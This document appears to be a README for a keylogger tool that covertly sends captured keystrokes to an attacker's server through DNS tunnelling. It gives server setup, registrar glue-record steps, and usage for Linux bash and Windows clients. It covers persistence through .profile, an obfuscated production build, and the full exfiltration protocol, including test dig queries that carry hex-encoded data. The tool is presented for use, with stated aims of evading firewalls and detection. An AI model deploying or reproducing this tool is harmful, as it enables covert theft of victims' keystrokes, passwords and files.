


# DNS Tunnel Keylogger
This post-exploitation keylogger will covertly exfiltrate keystrokes to a server. 

These tools excel at lightweight exfiltration and persistence, properties which will prevent detection. It uses DNS tunelling/exfiltration to bypass firewalls and avoid detection.
# Server
## Setup
The server uses python3.

To install dependencies, run `python3 -m pip install -r requirements.txt`
## Starting the Server
To start the server, run `python3 main.py`
```
usage: dns exfiltration server [-h] [-p PORT] ip domain

positional arguments:
  ip
  domain

options:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  port to listen on
```
By default, the server listens on UDP port 53. Use the `-p` flag to specify a different port.

`ip` is the IP address of the server. It is used in SOA and NS records, which allow other nameservers to find the server.

`domain` is the domain to listen for, which should be the domain that the server is authoritative for.

## Registrar
On the registrar, you want to change your domain's namespace to custom DNS.

Point them to two domains, `ns1.example.com` and `ns2.example.com`.



Add records that point the namespace domains to your exfiltration server's IP address.



This is the same as setting glue records.
# Client
## Linux
The Linux keylogger is two bash scripts. `connection.sh` is used by the `logger.sh` script to send the keystrokes to the server. If you want to manually send data, such as a file, you can pipe data to the `connection.sh` script. It will automatically establish a connection and send the data.
### `logger.sh`
```
Usage: logger.sh [-options] domain
Positional Arguments:
  domain: the domain to send data to
Options:
  -p path: give path to log file to listen to
  -l: run the logger with warnings and errors printed
```
To start the keylogger, run the command `./logger.sh [domain] && exit`. This will silently start the keylogger, and any inputs typed will be sent. The `&& exit` at the end will cause the shell to close on `exit`. Without it, exiting will bring you back to the non-keylogged shell. Remove the `&> /dev/null` to display error messages.

The `-p` option will specify the location of the temporary log file where all the inputs are sent to. By default, this is `/tmp/`.

The `-l` option will show warnings and errors. Can be useful for debugging.

`logger.sh` and `connection.sh` must be in the same directory for the keylogger to work. If you want persistance, you can add the command to `.profile` to start on every new interactive shell.
### `connection.sh`
```
Usage: command [-options] domain
Positional Arguments:
  domain: the domain to send data to
Options:
  -n: number of characters to store before sending a packet
```
## Windows
### Build
To build the keylogging program, run `make` in the `windows` directory. To build with reduced size and some amount of obfuscation, make the `production` target. This will create the `build` directory for you and output to a file named `logger.exe` in the `build` directory. I've only tested building using MinGW on Windows 10. If you try using `g++` on a non-Windows machine, you'll likely get build errors related to `windows.h`.

`make production domain=example.com`

You can also choose to build the program with debugging by making the `debug` target.

`make debug domain=example.com`

For both targets, you will need to specify the domain the server is listening for.
## Sending Test Requests
You can use `dig` to send requests to the server:

`dig @127.0.0.1 a.1.1.1.example.com A +short` send a connection request to a server on localhost.

`dig @127.0.0.1 b.1.1.54686520717569636B2062726F776E20666F782E1B.example.com A +short` send a test message to localhost.

Replace `example.com` with the domain the server is listening for.

# Protocol
## Starting a Connection
A record requests starting with `a` indicate the start of a "connection." When the server receives them, it will respond with a fake non-reserved IP address where the last octet contains the id of the client.

The following is the format to follow for starting a connection: `a.1.1.1.[sld].[tld].`

The server will respond with an IP address in following format: `123.123.123.[id]`

Concurrent connections cannot exceed 254, and clients are never considered "disconnected."
## Exfiltrating Data
A record requests starting with `b` indicate exfiltrated data being sent to the server.

The following is the format to follow for sending data after establishing a connection: `b.[packet #].[id].[data].[sld].[tld].`

The server will respond with `[code].123.123.123`

`id` is the id that was established on connection. Data is sent as ASCII encoded in hex.

`code` is one of the codes described below.
## Response Codes
### `200`: OK
If the client sends a request that is processed normally, the server will respond with code `200`.
### `201`: Malformed Record Requests
If the client sends an malformed record request, the server will respond with code `201`.
### `202`: Non-Existant Connections
If the client sends a data packet with an id greater than the # of connections, the server will respond with code `202`.
### `203`: Out of Order Packets
If the client sends a packet with a packet id that doesn't match what is expected, the server will respond with code `203`. Clients and servers should reset their packet numbers to 0. Then the client can resend the packet with the new packet id.
### `204` Reached Max Connection
If the client attempts to create a connection when the max has reached, the server will respond with code `204`.
## Dropped Packets
Clients should rely on responses as acknowledgements of received packets. If they do not receive a response, they should resend the same payload.

# Side Notes
## Linux
### Log File
The log file containing user inputs contains ASCII control characters, such as backspace, delete, and carriage return. If you print the contents using something like `cat`, you should select the appropriate option to print ASCII control characters, such as `-v` for `cat`, or open it in a text-editor.
### Non-Interactive Shells
The keylogger relies on `script`, so the keylogger won't run in non-interactive shells.
## Windows
### Repeated Requests
For some reason, the Windows `Dns_Query_A` always sends duplicate requests. The server will process it fine because it discards repeated packets.
